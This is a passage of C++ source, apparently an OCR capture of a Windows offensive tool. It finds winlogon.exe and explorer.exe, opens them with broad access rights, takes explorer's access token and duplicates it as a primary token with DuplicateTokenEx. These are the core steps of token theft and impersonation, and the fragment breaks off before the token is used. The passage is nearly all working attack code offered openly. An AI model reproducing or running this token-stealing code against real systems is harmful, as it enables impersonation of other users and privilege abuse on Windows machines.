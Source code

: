 ```c++

	return NULL;
}

int main()
{
	HANDLE hToken = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO si;
	PROCESS_INFORMATION pi;
	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
	si.cb = sizeof(STARTUPINFO);


	int pidWinlogon = GetProcessByName(L"winlogon.exe");
	if (pidWinlogon == NULL) {
		printf("[-] Can't open Winlogon, run as system");
	}

	HANDLE privilegedProcessHandle = OpenProcess(PROCESS_ALL_ACCESS,
		TRUE,
		pidWinlogon
	);

	int pidExplorer = GetProcessByName(L"explorer.exe");
	if (pidExplorer == NULL) {
		printf("[-] Can't open Explorer");
	}

	// Call OpenProcess(), print return code and error code
	HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION, true, pidExplorer);
	if (GetLastError() == NULL)
		printf("[+] OpenProcess() success!\n");
	else
	{
		printf("[-] OpenProcess() Return Code: %i\n", hProcess);
		printf("[-] OpenProcess() Error: %i\n", GetLastError());
	}

	// Call OpenProcessToken(), print return code and error code
	BOOL getToken = OpenProcessToken(hProcess, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken);
	if (GetLastError() == NULL)
		printf("[+] OpenProcessToken() success!\n");
	else
	{
		printf("[-] OpenProcessToken() Return Code: %i\n", getToken);
		printf("[-] OpenProcessToken() Error: %i\n", GetLastError());
	}

	// Call DuplicateTokenEx(), print return code and error code
	BOOL duplicateToken = DuplicateTokenEx(hToken, TOKEN_ADJUST_DEFAULT | TOKEN_ADJUST_SESSIONID | TOKEN_QUERY | TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);
	if (GetLastError() == NULL)
		printf("[+] DuplicateTokenEx() success!\n");
	else
	{
		printf("[-] DuplicateTokenEx() Return Code: %i\n", duplicateToken);
		printf("[-] DupicateTokenEx() Error: %i\n", GetLastError());
	}

```